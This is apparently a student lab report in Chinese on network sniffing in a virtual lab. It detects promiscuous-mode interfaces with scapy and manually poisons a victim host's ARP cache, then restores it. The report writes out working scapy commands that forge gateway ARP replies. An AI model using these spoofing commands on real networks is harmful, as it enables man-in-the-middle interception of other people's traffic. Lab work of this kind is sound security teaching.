






# 网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:d0:11:c7 / eth0
  - 172.16.111.124
- 受害者主机：Kali
  - 08:00:27:37:d3:99/ eth0
  - 172.16.111.102
- 网关：Ubuntu18.04
  - 08:00:27:81:53:7d/ enp0s8
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy

  安装 python3`sudo apt update && sudo apt install python3 python3-pip`

  `pip3 install scapy[complete]`

**安装完成**

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用

  `ip link show eth0`

  

- 在攻击者主机上开启 scapy

  `sudo scapy`

  

- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.102")`

  

-  回到受害者主机上开启网卡的『混杂模式』

  注意上述输出结果里应该没有出现 PROMISC 字符串

  手动开启该网卡的「混杂模式」

  `sudo ip link set eth0 promisc on`

- 发现输出结果里多出来了 PROMISC 
  `ip link show eth0`

  

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.102")`

  

- 在受害者主机上

  手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成

- 获取当前局域网的网关 MAC 地址

- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  `arpbroadcast.show()`

  

- 发送这个 ARP 广播请求
  `recved = srp(arpbroadcast, timeout=2)`

  

- 网关 MAC 地址如下
  `gw_mac = recved[0][0][1].hwsrc`

- 伪造网关的 ARP 响应包

  准备发送给受害者主机 172.16.111.102

  ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  `arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:d0:11:c7")`

- 发送上述伪造的 ARP 响应数据包到受害者主机
  `sendp(arpspoofed)`

  

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

`ip neigh`

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:81:53:7d", pdst="172.16.111.102", hwdst="08:00:27:37:d3:99")`
    `sendp(restorepkt1, count=100, inter=0.2)`

  

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  `ip neigh`

  

  啊这......

